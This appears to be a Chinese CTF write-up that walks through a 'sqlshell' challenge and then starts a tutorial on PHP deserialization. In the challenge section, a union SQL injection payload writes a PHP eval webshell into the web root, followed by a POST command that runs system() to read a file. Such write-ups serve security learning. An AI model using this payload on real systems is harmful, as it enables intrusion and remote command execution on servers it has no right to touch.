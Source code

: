 * 拿到**flag{N3WsT4r_ctf-ZOZ48904c0a7c7b}**（这是真费时间，而且你sleep时间少了甚至会出错，要爆了）

### sqlshell

* 根据提示，不在数据库，那就可以尝试提权找找服务器
* 将一句话木马通过sql注入到网站目录
* 尝试联合注入（因为没有啥符号被禁用了）
  `payload：null' Union Select 1,2,"<?php eval($_POST[0]);" into outfile '/var/www/html/1.php'`
* 然后在ip:port/1.php里用POST方式上传`0=system("cat /you_cannot_read_the_flag_directly");`
* 拿到**flag{bf4423e9-81ac-9d89-d266-acbcb5a5940a}**

# php反序化

### 这是什么的

- **序列化** 是将 PHP 对象转换为字符串的过程，可以使用 `serialize()` 函数来实现。该函数将对象的状态以及它的类名和属性值编码为一个字符串。序列化后的字符串可以存储在文件中，存储在数据库中，或者通过网络传输到其他地方。
- **反序列化** 是将序列化后的字符串转换回 PHP 对象的过程，可以使用 `unserialize()` 函数来实现。该函数会将序列化的字符串解码，并将其转换回原始的 PHP 对象。
- **序列化的目的**是方便数据的存储，在 PHP 中，他们常被用到缓存、session、cookie 等地方。

### 例子

* 一个简单的php对象例子
  ```php
  <?php
  class User {
  public $name;
  
  public function __construct($name) {
          $this->name = $name;
      }
  }
  ```

  同时创建一个`$user = new User("Probius_Official");`

* 序列化并输出
  ```php
  $serializedData = serialize($user);
  echo $serializedData . "\n";
  ```

  然后输出
  ```php
  O:4:"User":1:{s:4:"name";s:16:"Probius_Official";}
  ```

  解释上面内容就是
  ![](https://blog.chrizsty.cn/wp-content/uploads/2024/12/202305112206154.png)

  依此，每添加属性后就会在前面**蓝色框**里添加**属性名**，在后面**花括号**里写**值**

### 其他标识
